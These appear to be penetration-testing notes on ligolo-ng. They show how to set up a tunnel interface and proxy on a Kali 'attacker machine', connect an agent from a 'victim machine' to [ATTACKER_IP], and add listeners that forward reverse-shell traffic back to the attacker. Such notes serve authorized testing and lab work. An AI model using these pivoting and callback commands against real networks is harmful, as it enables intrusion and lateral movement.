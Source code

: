 https://github.com/Nicocha30/ligolo-ng
# Attacker machine
## Create new tun interface:
```bash
sudo ip tuntap add user kali mode tun ligolo
```
```bash
sudo ip link set ligolo up
```
```bash
ip a show
```
```bash
sudo ip route add $(IP_ADDRESS)/24 dev ligolo
```
i.e.
```bash
sudo ip route add 192.168.1.0/24 dev ligolo
```
Can create self signed certs with -selfcert but -autocert should be used as we have internet access.

Use proxy from this machine:
```bash
ligolo-proxy -selfcert/-autocert
```
When the connection is receieved:
```
session
```
```
1
```
```
start
```
# Victim machine
```
./agent -connect [ATTACKER_IP]:11601
```
If cert issues:
```
-ignore-cert
```
# Port Forwarding
If revshells or tools need to connect back to the attacker device, a port forward is required...

On ligolo:
```
listener_add --addr 0.0.0.0:1234 --to [ATTACKER_IP]:4444
```
```
listener_add --addr 0.0.0.0:1235 --to [ATTACKER_IP]:80
```
The following two commands forward any traffic that goes to ligolo victim machine at ports 1234 and 1235 onto the attacker machine at ports 4444 and 80 respectively.
